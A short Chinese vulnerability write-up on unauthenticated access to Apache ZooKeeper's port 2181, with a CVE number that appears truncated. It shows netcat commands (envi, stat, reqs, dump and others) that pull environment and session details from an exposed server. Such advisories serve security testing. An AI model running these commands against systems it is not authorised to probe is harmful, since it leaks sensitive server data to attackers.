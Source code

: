 # Apache  ZooKeeper 未授权访问漏洞 CVE-2014-085

## 漏洞描述

 默认安装配置完的zookeeper允许未授权访问，管理员未配置访问控制列表（ACL）。导致攻击者可以在默认开放的2181端口下通过执行envi命令获得大量敏感信息（系统名称、java环境）导致任意用户可以在网络不受限的情况下进行未授权访问读取数据

## 漏洞影响

> [!NOTE]
>
> Apache ZooKeeper

## 漏洞复现

Apache  ZooKeeper 默认开放 2181端口 ,使用如下命令获取敏感数据

```shell
echo envi | nc xxx.xxx.xxx.xxx 2181
```

![](image/zoo-1.png)

其他信息

```shell
1、stat：列出关于性能和连接的客户端的统计信息。
echo stat |ncat 127.0.0.1 2181

2、ruok：测试服务器是否运行在非错误状态。
echo ruok |ncat 127.0.0.1 2181

3、reqs：列出未完成的请求。
echo reqs |ncat 127.0.0.1 2181
　　
4、envi：打印有关服务环境的详细信息。
echo envi |ncat 127.0.0.1 2181
　　
5、dump：列出未完成的会话和临时节点。
echo dump |ncat 127.0.0.1 2181
```


